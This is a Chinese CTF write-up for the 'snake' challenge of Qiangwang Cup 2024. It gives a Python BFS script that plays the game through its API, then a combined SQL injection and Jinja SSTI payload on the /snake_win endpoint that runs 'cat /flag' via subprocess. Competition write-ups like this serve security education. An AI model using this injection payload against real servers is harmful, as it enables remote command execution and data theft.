

# snake题解（_当时没做出来_）
## 考点
* 玩游戏拿接口
* sql+ssti注入
* 参考：[星盟-强网杯2024 Writeup
](https://blog.xmcve.com/2024/11/04/%E5%BC%BA%E7%BD%91%E6%9D%AF2024-Writeup/#title-10)
## 分析
自己在做的时候确实注意到了要达到多少分才算通过（拿到flag或者拿到其他的信息），由于蛇移动的速度过快，当时通过burp抓包一步步修改移动方向，但是这样做太折磨了，做到这里就终止了。

***
(下面是题解思路)

写脚本自动运行贪吃蛇程序，然后拿到接口进行sql+ssti注入

## 解答
```python
import requests
import time
from collections import deque

# 游戏的 API 地址
url = "http://eci-2zeikei7c3gb3wwe1lu2.cloudeci1.ichunqiu.com:5000/move"
name = "http://eci-2zeikei7c3gb3wwe1lu2.cloudeci1.ichunqiu.com:5000/set_username"

# 初始化游戏状态
res = requests.post(name,{"username":"aaa"})
cookie = res.cookies
game_state = requests.post(url,cookies=cookie,json={"direction":"RIGHT"}).json()

# 定义方向
DIRECTIONS = {
    "UP": [0, -1],
    "DOWN": [0, 1],
    "LEFT": [-1, 0],
    "RIGHT": [1, 0]
}
WIDTH, HEIGHT = 20, 20


# 获取蛇的头部坐标
def get_snake_head(snake):
    return snake[0]


# 检查是否撞墙或咬到自己
def is_valid_move(snake, next_head):
    return (0 <= next_head[0] < WIDTH and
            0 <= next_head[1] < HEIGHT and
            next_head not in snake)


# BFS寻找最优路径
def find_path(snake, food):
    queue = deque([(get_snake_head(snake), [])])
    visited = set(tuple(segment) for segment in snake)

    while queue:
        current, path = queue.popleft()
        if list(current) == food:
            return path

        for direction in DIRECTIONS.values():
            next_head = (current[0] + direction[0], current[1] + direction[1])
            if is_valid_move(snake, next_head) and next_head not in visited:
                visited.add(next_head)
                queue.append((next_head, path + [next_head]))

    return []


# 移动蛇
def move_snake(direction):
    response = requests.post(url,cookies=cookie, json={"direction": direction})
    return response.json()


# 自动化贪吃蛇
def auto_snake(game_state):
    snake = game_state["snake"]
    food = game_state["food"]

    # 找到从蛇头到食物的路径
    path = find_path(snake, food)

    if path:
        next_head = path[0]
        head = get_snake_head(snake)

        # 确定移动方向
        if next_head[0] < head[0]:
            move_direction = "LEFT"
        elif next_head[0] > head[0]:
            move_direction = "RIGHT"
        elif next_head[1] < head[1]:
            move_direction = "UP"
        else:
            move_direction = "DOWN"

        return move_snake(move_direction)
    else:
        print("No valid path to food!")
        return game_state


# 示例执行
if __name__ == "__main__":
    while game_state["status"] == "ok":
        game_state = auto_snake(game_state)
        print(game_state)
print(game_state)
```


然后存在sql注入，直接注入payload：
> /snake_win?username=1'union select 1,2,"{{lipsum.\_\_globals\_\_.\_\_builtins\_\_.\_\_import\_\_('subprocess').check_output('cat /flag', shell=True)}}
')}}"--+